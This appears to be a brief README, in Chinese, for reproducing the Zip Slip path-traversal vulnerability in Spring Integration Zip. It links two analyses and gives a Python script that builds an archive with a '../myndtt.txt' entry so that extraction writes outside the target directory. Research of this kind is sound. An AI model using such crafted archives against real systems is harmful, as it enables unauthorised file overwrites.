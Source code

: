 漏洞起因Spring Integration Zip不安全解压

[漏洞分析链接一](https://www.anquanke.com/post/id/144775)

[漏洞分析链接二](https://xz.aliyun.com/t/2334)

特殊zip产生脚本：

```python
import zipfile
if __name__ == "__main__":
    try:
        binary = b'hello '
        zipFile = zipfile.ZipFile("test1.zip", "a", zipfile.ZIP_DEFLATED)
        info = zipfile.ZipInfo("test1.zip")
        zipFile.writestr("../myndtt.txt", binary)
        zipFile.close()
    except IOError as e:
        raise e
```
